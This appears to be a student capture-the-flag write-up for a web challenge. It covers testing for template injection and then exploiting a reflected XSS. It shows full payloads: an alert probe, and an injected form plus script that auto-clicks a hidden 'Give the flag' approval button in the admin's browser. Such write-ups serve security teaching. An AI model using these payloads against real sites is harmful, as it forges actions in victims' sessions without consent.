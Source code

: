## CTF - Desafio 2

## Recon

In this challenge we are given a website with an input field. If we write in there and submit it, the input gets reflected. This automatically gave us some ideas to test. 

The first one was SSTI (Server Side Template Injection), but by using [Wappalyzer](https://www.wappalyzer.com/), we found that the tech stack used was not vulnerable to this.

The second one was XSS (Cross-Site Scripting). To test this we submitted the payload `<script>alert("H4X0R")</script>`, hoping that there were no filters difficulting our way.

In fact this was the case:

![Initial XSS Payload](images/apply-for-flag-2/xss_initial_payload.png)

We also noticed that the server seemed to be re-rendering from time to time, since even if we checked the alert it would appear again.

Furthermore, we noticed in the text `The admin will use this page to check your request.`, which had an hyperlink to `http://ctf-fsi.fe.up.pt:5005/request/<request_id>`.

When we went to this page, we saw a weird disabled button with the text `Give the flag`:

![Give The Flag Button](images/apply-for-flag-2/give_the_flag_page.png)

When we inspected the html of this page, we notied that this button would essentially redirect us to a `/approve` endpoint if clicked:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```


## Exploitation

So, knowing all this, after some time of trial and error, we tried to develop a payload that would go to the wanted resource and we injected a javascript snippet to click the button.

Note: We did already know the `<request_id>` from the beginning, since it was given in plaintext in the homepage.


```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">          
<div class="submit">                  
  <input type="submit" id="giveflag" value="Give the flag">   
</div>  
</form>    

<script type="text/javascript">         
 document.querySelector('#giveflag').click();  
</script>
```

Initially this didn't work as we got an `access denied`. So, we spent a lot of time trying to refactor the script without success.

Only when we tried to disable the javascript in order to turn off all the frontend (superficial) protections, that we finally had success and got the flag.